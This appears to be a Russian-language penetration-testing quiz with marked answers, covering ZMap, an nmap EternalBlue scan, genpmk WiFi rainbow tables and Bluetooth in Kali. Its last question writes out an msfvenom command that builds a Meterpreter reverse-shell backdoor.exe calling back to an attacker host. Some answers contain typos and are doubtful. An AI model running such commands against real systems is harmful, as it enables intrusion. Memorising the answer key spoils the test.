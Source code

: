 Чтобы исключить пакеты с определённым IP-адресом из поиска в Wireshark, можно использовать оператор !=.


### 37. Какую утилиту рекомендуется использовать для ускорения процесса одновременного сканирования большого числа целевых IP-
адресов (пулов IP-адресов):
- [x] (+)ZMap
- [ ] Nmap
- [ ] ZenMap
- [ ] ~  OpenVAS


### 38. Для чего используется следующая команда: nmap --script smb-vuln-ms17-010.nse 192.168.59.4?
- [x] (+)Поиск уязвимости Ethernalblue с помощью NMap нa IP 192.168.59.4
- [ ] Поиск уязвимости HeartBleed с помощью NMap нa IP 192.168.59.4
- [ ] Поиск уязвимости Ethernalblue с помощью NMap  на IP 192.168.56.4
- [ ] ~  Поиск всех уязвимостей на целевом компьютере


### 39. Для каких целей используется команда genpmk -f ...dict/rockyou.txt -d /tmp/rainbow -s teddy? В состав какой программы для теста WIFI-сетей входит используемая в команде утилита?
- [x] (+)Для создания файла с предвычисленными вариантами хэшей паролей (радужные таблицы), который используется в целях ускорения атаки подбора паролей WiFi. Утилита genpmk входит в состав Cowpatty
- [ ] ~ для создания и взлома с помощью радужных таблиц, используется при этом в сочетании с утилитой pyrit
- [ ] для деаутентификации точки доступа с ESSID teddy. Утилита genpmk воходит в состав пакета aircrack-ng~  
- [ ] для создания объемного словаря. Утилита genpmk входит в состав Cowpatty~  

### 40. Для включения Bluetooth-адаптера в Kali Linux необходимо ввести команду:
- [x] (+)systemctl enable bluetooth.servce
- [ ] hciconfig hci0 start
- [ ] hcitool inq
- [ ] sysctl -w net.ipv4.ip_forward=1


### 41. Каким образом можно декодировать текст, преобразованный на основе той или иной кодировки:
- [x] (+)Использовать онлайн-декодеры либо команды декодирования в операционной системе Linux
- [ ] воспользоваться радужными таблицами, запустив процесс на GPU
- [ ] Из закодированного текста невозможно восстановить исходный, так как это необратимая функция
- [ ] воспользоваться методом полного перебора


### 42. Злоумышленник создает файл, который будет содержать необходимый payload, с помощью команды msfvenom -р
windows/meterpreter/reverse_tcp lhost=192.168.59.5 lport=4444 -f exe -о backdoor.exe. Для каких целей указывается параметр
lport=4444, может ли его значение отличаться от указанного?
- [x] (+)Параметр lport указывается, чтобы созданный вредоносный файл после запуска на компьютере жертвы подключился к указанному порту нa Kali Linux. Значение порта может быть любым.
- [ ] Параметр используется для того, чтобы злоумышленник мог удаленно подключиться к машине жертвы. Значение порта может быть любым
- [ ] Параметр Iport указывается для Toro, чтобы созданный вредоносный файл после запуска на компьютере жертвы подключился к указанному порту на наш Linux. значение порта фиксированное
- [ ] Это не значимый параметр, который не обязательно указывать
